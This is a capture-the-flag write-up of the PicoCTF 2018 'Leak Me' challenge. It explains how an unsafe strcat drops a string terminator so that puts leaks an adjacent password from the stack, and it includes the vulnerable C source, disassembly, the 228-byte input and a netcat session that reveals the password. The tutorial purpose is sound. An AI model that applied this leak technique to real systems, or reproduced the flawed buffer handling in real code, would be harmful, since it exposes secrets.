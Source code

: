 ```yaml
---
title:  PicoCTF 2018 - Leak Me
description: It's still a buffer overflow, but it won't crash and it won't execute code. Can you still get the flag?
hide_index: true
image:
  path: /img/reference/pico-ctf-2018-00000.png
  width: 1024
  height: 512
  thumb: /img/reference/pico-ctf-2018-00000.thumb.png
  alt: Linux Terminal
---
```


# PicoCTF 2018 - Leak Me

> **Note**: This article is part of our [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}).

## Spot the Bug

Spotting this one is trickier. I originally solved this challenge several months ago, but while putting this guide together I attempted to look ahead to this problem and "spot the bug" (with only access to the source code on my phone). I'm ashamed to admit that it was almost an hour of me staring at the thing before I had a good idea what the problem was and how it could be exploited. How long does it take you?

```c
char password[64]; // &[ebp-0x54]
char name[256]; // &[ebp-0x154]
char password_input[64]; // &[ebp-0x194]

memset(password, 0, sizeof(password));
memset(name, 0, sizeof(name));
memset(password_input, 0, sizeof(password_input));

printf("What is your name?\n");

fgets(name, sizeof(name), stdin);
char *end = strchr(name, '\n');
if (end != NULL) {
  *end = '\x00';
}

strcat(name, ",\nPlease Enter the Password.");

file = fopen("password.txt", "r");
if (file == NULL) {
  printf("Password File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
  exit(0);
}

fgets(password, sizeof(password), file);

printf("Hello ");
puts(name);

fgets(password_input, sizeof(password_input), stdin);
password_input[sizeof(password_input)] = '\x00';

if (!strcmp(password_input, password)) {
  flag();
}
else {
  printf("Incorrect Password!\n");
}
```

Let's go over the steps:

1. Memory for `password`, `name`, and `password_input` is allocated and initialized on the stack.
2. You are prompted for your name (saved in `name`)
3. The file "password.txt" is opened, and read into the `password` variable
4. You are prompted for a password (saved in `password_input`)
5. If your password (`password_input`) matches the password in the file (`password`), then the flag is printed.

First off, we notice that the prompts for `name` and `password` both use `fgets()`, which is considered safe. `fgets` will read up to `size-1` bytes (or the first newline), and will always add a tailing null byte. There is also a call to `printf`, which could be used unsafely, but is fine in this case. Similarly, there are no problems with the calls to `strchr`, `fopen`, `puts`, or `strcmp` in this program.

The only thing it could be, and if you consider it briefly you might figure out why, is the call to `strcat` (which is used to concatenate two strings together into one string, using the underlying memory of the first string).

```c
fgets(name, sizeof(name), stdin); // read up to size-1 bytes
// ...
strcat(name, ",\nPlease Enter the Password."); // add 28 characters + null to end of name
// ...
fgets(password, sizeof(password), file); // read the password into password
// ...
printf("Hello ");
puts(name);
```

## Strategy

The strategy, as the name of the challenge suggests, is to "leak" the password before we are required to enter it. We can do this because of the exact memory layout of the stack (we'll go over it in a minute, but it's important to note that this layout is specific to this version of compiler, in general the order of `password`, `name` and `password_input` on the stack isn't well specified). We can also do this because `puts` will continue to output chars until it hits the first null, and knows nothing about the size of memory block associated with `name`.

*If you know what you're doing already, you can attempt the problem by connecting to 2018shell.picoctf.com on port 38315 right now.*

## Background Info

Just like [last time]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/buffer-overflow-1.md %}), let's peak into the assembly and see what memory layout the compiler chose for our stack variables using `objdump -M intel -S ./auth`:

```nasm
sub    esp,0x4 // align
push   0x40 // 0x40 = 64 = sizeof(password)
push   0x0
lea    eax,[ebp-0x54] // &password
push   eax
call   8048530 <memset@plt> // memset(password, 0, sizeof(password));
add    esp,0x10

sub    esp,0x4 // align
push   0x100 // 0x100 = 256 = sizeof(name)
push   0x0
lea    eax,[ebp-0x154] // &name
push   eax
call   8048530 <memset@plt> // memset(name, 0, sizeof(name));
add    esp,0x10

sub    esp,0x4 // align
push   0x40 // 0x40 = 64 = sizeof(password_input)
push   0x0
lea    eax,[ebp-0x194] // &password_input
push   eax
call   8048530 <memset@plt> // memset(password_input, 0, sizeof(password_input));
add    esp,0x10
```

> **NOTE**: Take a second and observe that the arguments to `memset` are pushed on the stack in the "reverse" order. So, `sizeof(password)` is pushed first, then `0`, then the address of `password`. This may seem odd, but if you consider how the stack works, it means that `&password` is actually first in memory, followed by `0`, and then `sizeof(password)`, which is the order we expect. **Keep this in mind for later challenges**.

Therefor the memory layout for the local variables of our function looks something like this:

| lower addresses | &rArr; | &rArr; | &rArr; | &rArr; | &rArr; | higher addresses |
| --- | :---: | :---: | :---: | :---: | :---: | --- |
| `[esp]` | &lt; temp &gt; | `[ebp-0x194]` | `[ebp-0x154]` | `[ebp-0x54]` | &lt; other &gt; | `[ebp]` |
| | | `password_input`<br/>`[64]` | `name`<br/>`[256]` | `password`<br/>`[64]` | | |

Basically, the `password` variable directly follows the `name` variable in memory. If the string in `name` is long enough to spill into the memory for `password`, then when we read from "password.txt" we will actually write "into" the name string, and the password itself will be written to stdout when `puts(name)` is called.

## Exploitation

How long should our name be? Anything long enough should work, but it'll be easier to read if there is a clear delimiter. If the name is exactly 228 bytes (excluding newline), then appending 28 bytes will completely fill the `name` buffer, and the tailing null byte will end up as the first byte of the `password` variable. That byte will then be overwritten when the `password` is loaded. When the `name` string is printed out, the password will be all the characters following the `'.'` at the end of the prompt.

Here's 228 "U"s for you to copy-paste, as generated by `python3 -c 'print("U"*228)'`
```
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU
```

**NOTE**: this challenge requires to connect to a specific port on the server. To do this, you can install the netcat package on most linux distros and on windows. You could also connect to the port using `pwntools` or similar. `netcat` is already installed on the shell server.

```
$ nc 2018shell.picoctf.com 38315
What is your name?
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU
Hello UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU,
Please Enter the Password.a_reAllY_s3cuRe_p4s$word_f85406

a_reAllY_s3cuRe_p4s$word_f85406
picoCTF{===REDACTED===}
```
{:.contains-term}

When prompted, enter 228 characters and then press enter. It will then reply "Hello <228 chars>, Please Enter the Password.`<password>`" where the actual password will be printed out after the `'.'`. You then copy-paste the password and hit enter, at which point it will print the flag for you. In my case, the password was "a_reAllY_s3cuRe_p4s$word_f85406".

Now that you've solved **Leak Me**, head back to the  [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) to continue with the next challenge.